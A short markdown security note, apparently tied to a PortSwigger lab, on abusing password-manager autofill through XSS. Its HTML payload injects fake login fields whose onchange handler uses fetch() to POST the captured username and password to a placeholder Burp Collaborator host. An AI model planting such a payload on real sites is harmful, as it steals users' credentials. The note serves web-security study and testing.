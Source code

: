 # [XSS+CSRF to Capture Passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-capture-passwords)

Password managers that automatically submit a username and password using forms allow bypassing common XSS data-exfiltration protections.

Here's an example payload that provides `username` and `password` fields and auto-submits any filled values back to Burp Collaborator:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://COLLAB_SUB.oastify.com',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
});">
```

Callback:

![](_/attacking-pw-managers-20250603-1.png)
